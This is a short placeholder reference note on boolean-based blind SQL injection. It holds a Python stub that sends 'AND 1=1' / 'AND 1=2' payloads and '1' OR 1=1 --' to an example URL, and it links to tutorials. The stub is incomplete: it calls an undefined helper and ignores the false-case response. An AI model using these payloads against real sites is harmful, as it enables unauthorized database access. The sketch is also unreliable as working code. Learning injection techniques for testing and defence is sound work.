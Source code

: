 # Boolean-Based Blind Query SQL Injection

This is just for reference but will be removed once the information is filled.

TODO: Write a python script to bruteforce queries in order to automate blind SQL injection

```python
# Check if the response contains a specific string when the condition is true
def boolean_based_blind_sql_injection(target_url, injection_payload):
    response_when_condition_true = send_request(target_url, injection_payload + " AND 1=1 --")
    response_when_condition_false = send_request(target_url, injection_payload + " AND 1=2 --")

    if "True Response String" in response_when_condition_true:
        return True  # The injected condition is true
    else:
        return False  # The injected condition is false

# Example usage
target_url = "https://example.com/vulnerable-page"
injection_payload = "1' OR 1=1 --"

result = boolean_based_blind_sql_injection(target_url, injection_payload)
print("Is the injected condition true?", result)
```

https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/

http://securityidiots.com/Web-Pentest/SQL-Injection/Blind-SQL-Injection.html

https://resources.infosecinstitute.com/topics/application-security/blind-sql-injection/